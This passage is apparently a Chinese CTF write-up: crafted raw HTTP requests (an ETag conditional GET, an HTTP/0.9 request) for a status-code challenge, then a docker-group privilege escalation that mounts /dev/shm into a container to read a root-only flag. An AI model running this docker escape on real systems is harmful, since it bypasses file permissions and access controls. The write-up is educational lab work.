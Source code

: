 {% hideToggle Payload %}

先随便发一个正常的GET给/，响应200后取到ETag，然后发送下述payload，将其中的`<ETag>`替换为前面取到的值。

```plaintext
GET / HTTP/1.1\r\n
Host: example.com\r\n
If-None-Match: <ETag>\r\n\r\n
```

{% endhideToggle %}

听说有人爆出了13个，等看题解。


### 无状态码


在收集各种状态码的时候无意中爆出了无状态码还没发现，幸亏题目网站会帮我保存flag。


后来根据flag的提示复现了一下，其实很简单，发个HTTP 0.9的包就行：

```plaintext
GET / \r\n
```

## Docker for Everyone
{% hideToggle 查看题面 %}
{% note primary simple %}
X 是实验室机器的管理员，为了在保证安全的同时让同学们都用上 docker，他把同学的账号加入了 docker 用户组，这样就不需要给同学 sudo 权限了！


但果真如此吗？


提供的环境会自动登录低权限的 hg 用户。登录后的提示信息显示了如何在该环境中使用 docker。读取 /flag（注意其为软链接）获取 flag。

{% endnote %}
{% endhideToggle %}
这题开了半天开不起来，黑屏了二十秒终于启动了。进入环境，进行了一些常规操作：



```bash
alpine:~$ ls
alpine-3.16.tar
alpine:~$ ls /
bin         flag        media       root        swap        var
boot        home        mnt         run         sys
dev         lib         opt         sbin        tmp
etc         lost+found  proc        srv         usr
alpine:~$ cat /flag 
cat: can't open '/flag': Permission denied
alpine:~$ ls -lh /flag
lrwxrwxrwx    1 root     root          13 Oct  8 12:10 /flag -> /dev/shm/flag
```

发现/flag其实是个软连接，指向/dev/shm/flag。故可以使用`docker run -v /dev/shm:/mnt/shm -it --rm alpine`，将目标路径挂载到容器内部，然后在容器内部`cat /mnt/shm/flag`：
